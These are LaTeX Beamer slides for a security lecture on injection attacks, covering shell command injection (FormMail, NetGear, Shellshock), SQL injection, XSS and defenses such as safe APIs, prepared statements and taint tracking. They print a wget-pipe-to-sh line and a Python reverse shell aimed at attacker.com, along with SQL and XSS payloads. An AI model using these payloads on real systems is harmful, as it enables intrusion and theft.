\begin{frame}
    \titlepage
\end{frame}

{
\setbeamercolor{background canvas}{bg=blue!40!black,fg=blue!10!white}
\setbeamercolor{normal text}{bg=blue!40!black,fg=blue!10!white}
\setbeamercolor{itemize/enumerate body}{fg=white}
\setbeamercolor{itemize/enumerate subbody}{fg=white}
\setbeamercolor{titlelike}{bg=blue!40!black,fg=blue!10!white}
\begin{frame}<1|handout:1>[noframenumbering]{Changelog}
    \begin{itemize}
        \item Corrections made in this version not in first posting:
        \begin{itemize}
            \item 17 April 2017: slide 35: make note on slide of second escaping's misinterpretation
        \end{itemize}
    \end{itemize}
\end{frame}
}



\usemintedstyle{tango}

\section{Last time}
% FIXME: two-slide review of Rust

\begin{frame}{Last time}
    \begin{itemize}
    \item static analysis
        \begin{itemize}
        \item ``pattern matching'' for possible errors
        \item often imprecise --- probable bugs, not definite bugs/correctness
        \end{itemize}
    \item Rust disciplines 
        \begin{itemize}
        \item each object has \myemph{single owner} --- only deleter
        \item object may be \myemph{borrowed} from owner --- owner can't delete
        \item compiler tracking of \myemph{lifetimes} of borrowing
        \item alternate (runtime-tracked) rules: reference-counting, `dynamic' borrowing
        \end{itemize}
    \end{itemize}
\end{frame}

% FIXME: references to point to

% FIXME: logical attacks
% Example: Command injection with email sending scripts

\section{formmail problem}

\begin{frame}{on web forms}
    
\includegraphics[width=\textwidth]{contact-us}
\end{frame}

\begin{frame}{on web forms}
    \begin{itemize}
    \item feedback form on a website?
    \item easy idea: send you an email for each submission
    \item mechanism: configure webserver to run \myemph{program you write}
    \item how to write that program?
        \begin{itemize}
        \item could read up on how to \myemph{write a mail client}
        \item \ldots or use an existing one
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{a simple mail client}
    \begin{itemize}
        \item Unix \myemph{command line}: \texttt{sendmail user@example.com}
        \begin{itemize}
        \item then type the email to send
        \end{itemize}
    \item easy to use from another program
    \item use ``run a program'' interface
        \begin{itemize}
        \item standard library feature everywhere
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=formMailUsage]{FormMail.pl}
    \begin{itemize}
        \item 1995 script for making mail forms
        \item usage if installed at \texttt{https://example.com/formmail.pl}
    \end{itemize}
    \begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
...
Your email: <input name="from" value=""><br>
Your message:<br><textarea name="message"></textarea><br>
<input type="submit" value="Send Feedback">
</form>
\end{minted}
\end{frame}

\begin{frame}[fragile,label=bugInFormMail]{a bug in FormMail.pl}
    \begin{itemize}
        \item 1995 script
        \item example, write "You have been hacked!" to index.html
            \begin{itemize}
                \item (if user script runs as can change it)
            \end{itemize}
    \end{itemize}
    \begin{minted}[fontsize=\small,highlightlines=3]{HTML}
<form action="http://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
        value="; echo 'You have been hacked!' >index.html"
>
...
<input type="submit">
</form>
\end{minted}
    \begin{itemize}
        \item view HTML in web browser, click submit button
    \end{itemize}
\end{frame}

\newmintinline{perl}{}
\newmintinline{Shell}{}
\newmintinline{SQL}{}

\begin{frame}[fragile,label=formMailExploit]{a bug in FormMail.pl}
    \begin{minted}[highlightlines=1]{Perl}
open (MAIL, "|sendmail $recipient")
\end{minted}
    \begin{itemize}
        \item {\small (simplified code)}
        \item Perl: \perlinline|$variableName| in string replaced with variable's value
        \item \perlinline|$recipient| comes from \myemph{web form}
        \item \perlinline/open (FILEHANDLE, "|command")/ runs ``command''
            \begin{itemize}
                \item reads its output like a file
            \end{itemize}
        \item<2> \texttt{"|sendmail \fbox{; \myemph{echo ... >index.html}}"}
    \end{itemize} 
\end{frame}

\begin{frame}[fragile,label=formMailExploitCmd]{sendmail; echo ...}
\begin{minted}{Shell}
sendmail ; echo 'You have been hacked!' >index.html
\end{minted}
    \begin{itemize}
    \item run instead of \Shellinline|sendmail webmaster@example.com|
    \item shell syntax: semicolon seperates commands
        \begin{itemize}
            \item fundamental problem: semicolon not considered part of email
        \end{itemize}
    \item sendmail with no arguments may fail --- but attacker doesn't care
        \begin{itemize}
            \item ``\texttt{Recipient names must be specified}''
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=justOneCommand]{just one line of commands?}
    \begin{itemize}
        \item common strategy: command to get more commands to run
    \end{itemize}
\begin{minted}[fontsize=\small,breaklines,breakafter=;]{Shell}
# wget: utility to download a file
#  |: send output of command before pipe to command after
# sh: command prompt program
wget -O- http://attacker.com/script.sh | sh
\end{minted}
\end{frame}

\begin{frame}[fragile,label=justOneCommand2]{just one line of commands?}
\begin{itemize}
    \item common strategy: ``reverse shell''
    \item command to connect to attacker, read commands
        \begin{itemize}
        \item like SSH but with connection in wrong direction
        \end{itemize}
\end{itemize}
\begin{minted}[fontsize=\small,breaklines,breakafter=;]{Shell}
# a little python program that connects to attacker.com,
# then passes everything to a shell (a "reverse shell")
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
\end{minted}
\end{frame}

\section{More examples}

\subsection{Netgear exploit}

% Example: netgear router command injection

\begin{frame}[fragile,label=netGearExploit1]{a bug in some NetGear routers}
\begin{itemize}
    \item suppose router's interface is at \texttt{http://10.0.0.1/}
    \item \texttt{http://10.0.0.1/cgi-bin/\fbox{FOO}}: runs \texttt{scripts/\fbox{FOO}}
        \begin{itemize}
            \item (or some similar filename)
            \item example FOO: \texttt{apply.cgi} --- program to change router settings
        \end{itemize}
    \item<2-> request \texttt{http://10.0.0.1/cgi-bin/;COMMAND}
    \item<2-> \texttt{scripts/\fbox{;\myemph{COMMAND}}}
    \vspace{.5cm}
    \item<3-> problem: URL can't contain spaces
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=netGearExploit2]{exploit in NetGear}
\begin{itemize}
    \item \texttt{\fontsize{10}{11}\selectfont http://10.0.0.1/cgi-bin/;wget\$IFS-O-\$IFS'http://attacker.com'|sh}
        \begin{itemize}
        \item runs \texttt{wget -O 'http://attacker.com'|sh}
        \end{itemize}
    \item What is \texttt{\$IFS}??
        \begin{onlyenv}<2|handout:1>
    \item shells supports variables:
\lstset{
    language={},style=small,
    moredelim={**[is][\color{red!70!black}]{~in~}{~end~}},
}
\begin{lstlisting}
cr4bd@labunix01:~$ ~in~FOO="this is a test"~end~
cr4bd@labunix01:~$ ~in~echo $FOO~end~
test
cr4bd@labunix01:~$ ~in~$FOO~end~
No command 'this' found, did you mean:
 Command 'thin' from package 'thin' (universe)
this: command not found
cr4bd@labunix01:~$ 
\end{lstlisting}
            \end{onlyenv}
\only<3|handout:2>{
    \item ``input field seperator'' --- defaults to space
        \begin{itemize}
        \item used by shell to determine how to split strings in some cases
        \end{itemize}
}
\end{itemize}
\end{frame}

\section{Other kinds of injection}

\begin{frame}{beyond command injection}
\begin{itemize}
    \item pattern: use a \myemph{(mini-)language} to talk to program/library
        \begin{itemize}
        \item prior examples: language is shell commands
        \end{itemize}
    \item try to embed attacker's input as \myemph{a constant in that language}
    \item but miss features like command seperators
    \vspace{.5cm}
    \item shells aren't the only other language
\end{itemize}
\end{frame}

\begin{frame}{SQL injection}
    \begin{itemize}
        \item SQL --- Structured Query Language
            \begin{itemize}
            \item the ubiquitous way to talk to databases
            \end{itemize}
        \item ``every'' modern web application keeps all its data here
    \end{itemize}
    \begin{tikzpicture}
        \node[draw,thick,fill=blue!30] (browser) {
            Web Browsers
        };
        \node[draw,thick,fill=green!30,right=2cm of browser] (appServer) {
            Application Servers
        };
        \node[draw,thick,fill=yellow!30,right=2cm of appServer] (database) {
            Database
        };
        \begin{scope}[line width=2pt,black!50,>=Latex]
            \draw[->] (browser) -- (appServer);
            \draw[->] (appServer) -- (database);
        \end{scope}
    \end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=simpleSQL]{simple SQL examples}
\begin{minted}{SQL}
SELECT * FROM users
         WHERE username = 'mylogin';
SELECT last_login_time FROM users
         WHERE username = 'mylogin';
SELECT username FROM users 
         WHERE user_type = 'student';
INSERT INTO users (username, password)
           VALUES ('mylogin', 'password1');
DELETE FROM users WHERE username = 'mylogin';
SELECT * FROM users; -- this is a comment
\end{minted}
\end{frame}

\begin{frame}[fragile,label=vulnApp]{vulnerable application}
    \vspace{-.25cm}
\begin{minted}[fontsize=\small,startinline]{PHP}
$db = setup_db();

# get username, password from web client
$username = $_POST['username'];
$password = $_POST['password'];

$r = $db->query("SELECT * FROM users WHERE 
        username='$username' AND password='$password'");
if (!empty($r)) {
    echo "Welcome $username!\n";
    run_rest_of_application();
} else {
    echo "Invalid username or password.\n";
}
\end{minted}
    \imagecredit{based on example by Abbas Naderi}
\end{frame}

\begin{frame}[fragile,label=normQuery]{normal queries}
    \begin{itemize}
    \item user inputs username \texttt{testuser} and password \texttt{password1}:
\begin{minted}{SQL}
SELECT * FROM users
        WHERE username='testuser'
          AND password='password1';
\end{minted}
    \item program counts number of results --- login if at least 1
    \item one result if user exists, password matches
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=abnormalQ]{abnormal queries}
    \begin{itemize}
        \item user inputs username \fbox{\texttt{admin}} AND password \fbox{\myemph{\texttt{' OR '1'='1}}}:
\begin{minted}{SQL}
SELECT * FROM users
        WHERE username='admin'
          AND password='' OR '1'='1'
\end{minted}
    \item program counts number of results --- login if at least 1
    \item one result \myemph{if user admin exists}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=readDB]{reading a database}
\begin{minted}{SQL}
SELECT * FROM users WHERE
    username='$username' AND password='$password';
\end{minted}
    \begin{itemize}
    \item what if we don't know a username?
    \item can we list users in the database?
        \begin{itemize}
        \item \SQLinline|SELECT * FROM users WHERE 1=1| will return call users
        \end{itemize}
    \item<2> problem: program only tells us if \myemph{there is any result to query}
        \begin{itemize}
        \item not actual contents of results
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=readDB2]{reading a database}
    \begin{itemize}
        \item ``username'' \fbox{\texttt{' OR substr(username,0,1) < 'M}}
    \end{itemize}
\begin{minted}[highlightlines=3]{SQL}
SELECT * FROM users
        WHERE
    username='' OR substr(username,0,1) < 'M'
          AND password='' OR 1=1
\end{minted}
\end{frame}

\begin{frame}[fragile,label=twentyQ]{a game of twenty questions (1)}
    \begin{itemize}
    \item ``any users with names before M alphabetically''?
    \item ``any users with names before H alphabetically''?
    \item keep asking questions until you get the first username
    \vspace{.5cm}
    \item<2> ``does admin have a password before M''?
    \item<2> \ldots
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=twentyQ2]{a game of twenty questions (2)}
    \begin{itemize}
    \item SQL supports complicated queries:
    \item example: nested queries
    \end{itemize}
\begin{minted}{SQL}
SELECT * FROM users WHERE username='' OR '1'='1'
    AND password='' OR
    (SELECT 1 FROM documents
              WHERE document_id=1
              AND substr(text, 0, 1) < 'M')
    OR '2'='1'
\end{minted}
    \begin{itemize}
    \item ``subquery''
    \item questions can be about different subject matter
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=blindQ]{blind questions}
    \begin{itemize}
    \item sometimes programs perform DB query, but don't display result
    \end{itemize}
\begin{minted}[fontsize=\small]{SQL}
INSERT INTO click_log (time, page) VALUES (NOW(), '$page_id')
\end{minted}
\begin{visibleenv}<2->
\begin{minted}[fontsize=\small]{SQL}
INSERT INTO click_log (time, page) VALUES (NOW(),
    '' OR (
        SELECT sleep(5) FROM users WHERE username='admin'
            AND substr(password, 0, 1) < 'M'
    ) OR '') 
\end{minted}
    \begin{itemize}
        \item use runtime (or other ``side channels'') to learn result
    \end{itemize}
\end{visibleenv}
\end{frame}

\begin{frame}[fragile,label=writingDB]{writing a database}
    \begin{itemize}
    \item sometimes can put multiple SQL commands in one
    \end{itemize}
\begin{minted}[fontsize=\small]{SQL}
SELECT * FROM users WHERE username='' OR '1'='1' AND
        password=''; DROP TABLE users; -- '
\end{minted}
    \begin{itemize}
    \item \texttt{DROP TABLE} --- delete table
    \item often multiple commands prohibited for this reason
    \end{itemize}
\end{frame}

\begin{frame}{SQL injection in the wild}
    \begin{itemize}
        \item \myemph{extremely common vulnerability}
    \item occurs with all sorts of parameters
        \begin{itemize}
        \item usernames
        \item item IDs
        \item \ldots
        \end{itemize}
    \item relatively \myemph{easy to avoid}
    \end{itemize}
\end{frame}

% Example: SQL injection

% ??Example: shell shock


% SQL injection tricks
    
    % Getting information from SQL injection

        % Binary search

\begin{frame}{injection defense}
    \begin{itemize}
    \item ways to defend against injection?
    \item similar techniques regardless of type of injection
    \end{itemize}
\end{frame}
    
% Fixes to injection

        % Proposals?

\begin{frame}{blacklisting}
    \begin{itemize}
        \item one idea --- remove pesky characters
        \item example: running command \texttt{sendmail "{\color{red}\textit{ADDRESS}}"}
            \begin{itemize}
                \item ADDRESS supplied from input
            \end{itemize}
        \item first fix ADDRESS by removing \texttt{"}?
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=shellMisquoting]{the shell is surprising}
\lstset{
    language={},style=small,
    moredelim={**[is][\color{red!70!black}]{~in~}{~end~}},
    escapechar=^,
}
\begin{lstlisting}
cr4bd@labunix01:~$ ~in~whoami~end~
cr4bd
cr4bd@labunix01:~$ ~in~echo "whoami"~end~
whoami
cr4bd@labunix01:~$ ~in~echo `whoami`~end~
cr4bd
cr4bd@labunix01:~$ ~in~echo "`whoami`"~end~
cr4bd
cr4bd@labunix01:~$ ~in~echo "`unknowncommand`"~end~

unknowncommand: command not found
cr4bd@labunix01:~$ 
\end{lstlisting}
\end{frame}

% FIXME: more common blacklist/escaping problems

\begin{frame}{whitelisting}
    \begin{itemize}
        \item good advice: only allow known-good characters
        \item avoids forgetting things like \texttt{`}
        \item example: allow \texttt{a-z}, \texttt{A-Z}, \texttt{0-9}, \ldots
        \item problem: can't use \fbox{\texttt{'}} in my password???
        \item problem: can't use \fbox{\texttt{'}} in my forum post???
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=escaping]{escaping}
    \begin{itemize}
    \item There's a way to write a quote in a string, right?
    \item Shell: \fbox{\texttt{echo 'A quote: '\textbackslash'' in a string.'}}
        \begin{itemize}
            \item outputs \fbox{\texttt{A quote: ' in a string.}}
        \end{itemize}
    \item just add backslashes/etc. before everything that needs it
    \item can be a bit error-prone
    \end{itemize}
\end{frame}

% FIXME: escaping hole CVE from PHP mail example
\begin{frame}[fragile,label=wrongEscaping]{getting escaping wrong (1)}
    \begin{itemize}
    \item PHP \texttt{mail} function:
\begin{minted}[startinline,fontsize=\small]{PHP}
mail($to, $subject, $message, $headers, $params);
\end{minted}
    \item runs \fbox{\texttt{sendmail -t -i \textit{\$params}}}
    \item does escaping of \textit{\$params} to \myemph{prevent running multiple commands}
    \item is intended to allow multiple additional parameters to be passed
    \item<2> PHPmailer (vulnerable app): wants to pass \texttt{-fFROM} 
        \begin{itemize}
        \item \textit{FROM} is user specified from address
        \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=wrongEscaping2]{getting escaping wrong (2)}
    \begin{itemize}
    \item example good \texttt{\$params}
        \begin{itemize}
            \item \fbox{\texttt{-s -t -q}} --- should be three args
            \item \fbox{\texttt{-f"multiple chars" -t}} --- should be two args
        \end{itemize}
    \vspace{.5cm}
    \item<2> PHP escaping policy:
    \item<2> backslash before \fbox{\texttt{\&\#;`|*?~<>\^~()[]{}\$\textbackslash}} 
    \item<2> backslash before \textit{unpaired} \fbox{\texttt{'"}}
    \item<2> (correct for avoiding multiple shell commands)
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=wrongEscaping3]{getting escaping wrong (3)}
    \begin{itemize}
    \item first attempt: assume built-in escaping is good enough:
\begin{minted}[fontsize=\small,startinline]{PHP}
mail($to, $subject, $message, $headers, "-f$FROM");
\end{minted}
    \item attacker input: \fbox{\texttt{"Z\textbackslash" -Xindex.html "@foo.com}}
    \item command after escaping: (boxes show arguments found by shell)\\
        {\fontsize{11}{11}\texttt{sendmail -t -i -f\fbox{"Z\textbackslash\textbackslash"} \fbox{\myemph{-Xindex.html}} \fbox{\textbackslash"@foo.com}}}
    \item passed unwanted \texttt{-X} argument 
        \begin{itemize}
            \item ``\texttt{-X logfile} --- log all traffic \ldots in the indicated log file''
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=wrongEscaping4]{getting escaping wrong (4)}
    \begin{itemize}
    \item second attempt: do escaping:
\begin{minted}[startinline,fontsize=\small]{PHP}
mail($to, $subject, $message, $headers,
            escapeshellarg("-f$FROM"));
\end{minted}
    \item attacker input: \fbox{\texttt{"Z\textbackslash' -Xindex.html "@foo.com}}
    \item first escaping: \texttt{
            '{\color{blue!70!black}-f"Z\textbackslash}'\textbackslash''{\color{green!70!black}~-Xindex.html "foo.com}'
        }
    \item second round of escaping misinterprets as \myemph{three arguments to escape}
        \begin{itemize}
        \item really is one with two quoted strings in it
        \end{itemize}
    \item final command: (boxes show arguments found by shell) \\
        {\fontsize{11}{11}\selectfont\texttt{
            sendmail -t -i \fbox{'-f\textbackslash"Z\textbackslash\textbackslash'\textbackslash\textbackslash''} \fbox{\myemph{-Xindex.html}} \fbox{\textbackslash"@foo.com\textbackslash'}
        }}
    \end{itemize}
\end{frame}


\begin{frame}<1-2>[label=betterAPIs]{real solution: better APIs}
    \begin{itemize}
    \item \myemph<2>{why is the shell involved in running commands?}
    \item \myemph<2>{can't we specify arguments directly?}
    \vspace{.5cm}
\item \myemph<3>{why do we need to put user data in the SQL?}
\item \myemph<3>{isn't there some other way to send it?}
    \end{itemize}
\end{frame}

\begin{frame}{recall: Linux, initial stack}
\vspace{-1em}
\begin{tikzpicture}
\tikzset{
    stackMark/.style={draw=none,font=\it},
    envVar/.style={fill=blue!20},
    envVarP/.style={fill=violet!20},
    arg/.style={fill=green!20},
    argP/.style={fill=yellow!20},
}
\matrix[tight matrix,nodes={text width=7cm,align=center,font=\small}] (theStack){
    |[stackMark]| top of stack at {\tt 0x7ffffffff000} \\
    |[envVar]| \tt "HOME=/home/cr4bd" \\
    |[envVar]| \tt "PATH=/usr/bin:/bin" \\
    |[arg]| \tt "bar" \\
    |[arg]| \tt "foo" \\
    |[arg]| \tt "./test.exe" \\
    |[envVarP]| NULL pointer (end of list) \\
    |[envVarP]| pointer to HOME env. var. \\
    |[envVarP]| pointer to PATH env. var. \\
    |[argP]| NULL pointer (end of list) \\
    |[argP]| pointer to bar \\
    |[argP]| pointer to foo \\
    |[argP]| pointer to ./test.exe \\
    |[stackMark]| actual initial stack pointer \\
};
\node[right=1cm of theStack-1-1] (cmd) {
    {\tt ./test.exe foo bar}
};
\node[draw,envVar,right=1cm of theStack-2-1] (envVarLabel) {
    environment variables
};
\draw[thick] (theStack-2-1.north east) -- (envVarLabel.north west);
\draw[thick] (theStack-3-1.south east) -- (envVarLabel.south west);
\node[draw,arg,right=1cm of theStack-5-1] (argLabel) {
    command-line arguments
};
\draw[thick] (theStack-4-1.north east) -- (argLabel.north west);
\draw[thick] (theStack-6-1.south east) -- (argLabel.south west);
\node[draw,envVarP,right=1cm of theStack-8-1] (envVarPLabel) {
    array of pointers to env. vars.
};
\draw[thick] (theStack-7-1.north east) -- (envVarPLabel.north west);
\draw[thick] (theStack-9-1.south east) -- (envVarPLabel.south west);
\node[draw,argP,right=1cm of theStack-11-1] (argPLabel) {
    array of pointers to args (argv)
};
\draw[thick] (theStack-10-1.north east) -- (argPLabel.north west);
\draw[thick] (theStack-13-1.south east) -- (argPLabel.south west);
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=UnixProgExec]{Unix program executions}
    \begin{itemize}
        \item program arguments \myemph{seperated when program runs}
    \item system call to run a program takes a \textit{list of arguments}
\begin{minted}{C}
const char *command_line_args[] = {
    "sendmail", emailAddress
};
execve("/usr/bin/sendmail",
       command_line_args, NULL);
\end{minted}
    \item no room for misinterpretation of quotes, semicolons, etc.
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=processAPIs]{example: better run command APIs}
    \begin{itemize}
    \item original sendmail problem:
    \end{itemize}
\begin{minted}{Perl}
# instead of:
open (MAIL, "| sendmail '$username'");
# can do (as of Perl 5.8 (released 2002))
open (MAIL, "|-", "sendmail", $username);
\end{minted}
    \begin{itemize}
    \item Python 2 API:
    \end{itemize}
\begin{minted}{Python}
subprocess.Popen(['sendmail', username])
\end{minted}
\end{frame}

\againframe<3>{betterAPIs}

\begin{frame}[fragile,label=betterDBAPI]{better database APIs}
    \begin{itemize}
        \item common idea: placeholders
    \end{itemize}
\begin{minted}[startinline]{PHP}
$statement = $db->prepare("SELECT * FROM users
    WHERE username=? AND password=?");
$statement->execute([$username, $password]);
\end{minted}
\end{frame}

\begin{frame}{checking for injection}
    \begin{itemize}
        \item how can we find injection bugs?
        \item<2-> testing: give funny inputs to program
            \begin{itemize}
                \item especially with \fbox{\texttt{'}}, \fbox{\texttt{"}}, \fbox{\texttt{;}}, \fbox{\texttt{\textbackslash}} etc.
            \end{itemize}
        \item<2-> program analysis/runtime mitigation: ``taint tracking''
    \end{itemize}
\end{frame}

\begin{frame}{taint tracking idea}
    \begin{itemize}
        \item track one bit of extra information for every value in program
        \item ``is this variable tainted?'' $\approx$ ``is it unsanitized input?''
        \item intuition: tainted variables shouldn't be used in ``dangerous'' things
            \begin{itemize}
                \item SQL query
                \item shell command
                \item \ldots
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{taint tracking rules (for injection)}
    \begin{itemize}
        \item program \myemph{input is tainted}
        \item \myemph{transitive} values computed using tainted values are tainted
            \begin{itemize}
            \item except for \myemph{explicit} ``sanitization'' operations
            \end{itemize}
        \item what about control flow? (multiple options)
        \item error if tainted values are passed to ``sensitive'' operations
            \begin{itemize}
            \item shell command
            \item SQL command
            \item \ldots
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{taint tracking implementations}
    \begin{itemize}
        \item supported as optional langauge feature --- Perl, Ruby
        \item doesn't seem to have gotten wide adoption?
        \item idea adopted by some static analysis tools
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=perlTT1]{taint tracking in Perl (1)}
    \begin{minted}[fontsize=\small]{Perl}
#! perl -T
# -T: enable taint tracking
use warnings; use strict;
$ENV{PATH} = '/usr/bin:/bin';

print "Enter name: ";
my $name = readline(STDIN);
my $dir = $name . "-dir";

system("mkdir $dir");
\end{minted}
    \begin{itemize}
    \item ``Insecure dependency in system while running with -T switch at perltaint.pl line 10, <STDIN> line 1.''
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=perlTT2]{taint tracking in Perl (2)}
\begin{minted}[fontsize=\small]{Perl}
#! perl -T
# -T: enable taint tracking
use warnings; use strict;
$ENV{PATH} = '/usr/bin:/bin';

print "Enter name: ";
my $name = readline(STDIN);
# keep $name only if its all alphanumeric
# this marks $name as untainted
($name) = $name =~ /^([a-zA-Z0-9]+)$/;
my $dir = $name . "-dir";

system("mkdir $name");
\end{minted}
\end{frame}

\begin{frame}{taint tracking versus good APIs}
    \begin{itemize}
    \item good APIs probably a better solution
        \begin{itemize}
        \item complementary with taint tracking
        \item ``is program name tainted?''
        \end{itemize}
    \item filtering is error-prone
    \item maybe why taint-tracking for this hasn't had much adoption?
    \end{itemize}
\end{frame}

\begin{frame}{taint tracking generally}
    \begin{itemize}
    \item taint tracking for other security issues is a big research area
    \item often by implementing taint tracking for assembly
        \begin{itemize}
        \item much, much higher overhead than implementing for Perl or Ruby
        \end{itemize}
            \only<2->{\hrulefill}
   \item<2->example: detect private information leaks
        \begin{itemize}
        \item taint personal information
        \item error if tainted info goes to network
        \end{itemize}
    \item<2-> example: check if \myemph{return addresses} are tainted before using
    \end{itemize}
\end{frame}


% Static and dynamic taint tracking

        % Talked about static analysis
        % What should we look for?
    
    % Idea: information flow tracking

    % Example implemtation: Perl

    % Static analysis for taint tracking

\begin{frame}{a command injection example}
\end{frame}

\begin{frame}[fragile,label=shellShock]{other shell features}
\begin{itemize}
    \item shell's support scripting with ``functions''
\end{itemize}
\lstset{
    language={},style=small,
    moredelim={**[is][\color{red!70!black}]{~in~}{~end~}},
}
\begin{lstlisting}
cr4bd@labunix01:~$ ~in~foo() { echo "called foo; args: $*"; }~end~
cr4bd@labunix01:~$ ~in~foo quux~end~
called foo; args: quux
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=shellShock2]{bash function exports}
\begin{itemize}
    \item bash (popular shell) wanted to transfer functions from one shell to another it runs
    \item mechanism: environment variables 
        \begin{itemize}
            \item Unix/Linux feature; passed to programs automatically
        \end{itemize}
    \item example: \Shellinline|foo() { echo "called foo"; }|, want to export?
    \item set env. var. \texttt{foo} to \fbox{\texttt{() \{echo "called foo"; \}}}
    \vspace{.5cm}
    \item how would you implement this?
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=shellShock3]{bash shellshock}
    \begin{itemize}
        \item if \texttt{foo} set to \fbox{\texttt{() \{...;\}}}
        \item bash ran \fbox{\Shellinline|foo() {...;}|}\\
        \only<2->{\hrulefill}
    \item<2-> if \texttt{foo} set to \fbox{\texttt{() {...;}; dangerousCommand}}
    \item<2-> bash ran \fbox{\Shellinline|foo() {...;}; dangerousCommand|}
    \item<2-> define a function; then \myemph{run a command right away}!
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=shellShock4]{shellshock exploitability}
    \begin{itemize}
    \item example: DHCP client runs program to configure a new network
        \begin{itemize}
        \item DHCP: most common ``get connected to a network'' protocol
        \end{itemize}
    \item program is often shell (bash) script --- or uses shell script
    \item easy way to pass information --- environment variables
    \item can contain \myemph{strings from network connected to}
        \begin{itemize}
            \item network: our domain name is \fbox{\texttt{()\{;\}; dangerousCommand}}
            \item set env. var. \texttt{DOMAIN\_NAME} to \fbox{\texttt{()\{;\}; dangerousCommand}}
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{more command injection}
    \begin{itemize}
    \item saw: shell comamnds, SQL
    \item one more very important category: HTML
    \item special name: \myemph{cross-site scripting} or \myemph{XSS}
    \end{itemize}
\end{frame}

\begin{frame}<0>[fragile,label=storedXSS]{stored cross-site scripting}
\begin{tikzpicture}
    \node[draw,thick,inner sep=5mm,align=left,text=red!70!black,align=left] (commentBox) {
\begin{lstlisting}[language={}]
<script>
    document.location = 'http://attacker.com';
</script>
\end{lstlisting}
    };
    \node[anchor=south west] at (commentBox.north west) { Your comment: };
    \node[align=left,anchor=north west] (nameLabel) at (commentBox.south west) {
        Name: 
    };
    \node[draw,font=\tt,thick,inner sep=1mm,align=left,text=red!70!black,anchor=west,minimum width=5cm] at (nameLabel.east) {
        An Attacker
    };
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=storedXSS2]{stored cross-site scripting}
    
\includegraphics[width=\textwidth]{stores-xss}
\end{frame}

% Intro: Web security

\begin{frame}{next topic: web security}
\end{frame}

\begin{frame}{the web}
    \begin{tikzpicture}
        \node[draw,thick,fill=blue!30] (browser) {
            Web Browser
        };
        \node[draw,thick,fill=green!30,right=2cm of browser] (webSite1) {
            facebook.com
        };
        \node[draw,thick,fill=green!30,below=.5cm of webSite1] (webSite2) {
            foobar.com (uses facebook login)
        };
        \node[draw,thick,fill=red!30,below=.5cm of webSite2] (webSite3) {
            evil.com (run by attacker)
        };
        \draw[thick,Latex-Latex] (browser) -- (webSite1);
        \draw[thick,Latex-Latex] (browser) -- (webSite2);
        \draw[thick,Latex-Latex] (browser) -- (webSite3);
    \end{tikzpicture}
\begin{itemize}
    \item one web browser talks to multiple websites
    \item how does it (or does it) keep each websites seperate?
    \item even though websites can link to each other/etc.?
\end{itemize}
\end{frame}

\section{Backup Slides}

\begin{frame}[fragile,label=formMailExploit2]{a bug in FormMail.pl}
\begin{minted}{Perl}
open (MAIL, "|$mailprog $FORM{'recipient'}")
        || die "Can't open $mailprog!\n";
\end{minted}
    \begin{itemize}
        \item Perl: \perlinline/open (MAIL, "|command")/ reads output from a command 
            \begin{itemize}
                \item MAIL is the name of the file handle
            \end{itemize}
        \item Perl: \perlinline|$variableName| in string replaced with variable value
        \item \perlinline|$FORM{'recipient'}| is variable with value from web form
        \item \perlinline/"|sendmail ; echo ... >index.html"/
    \end{itemize} 
\end{frame}
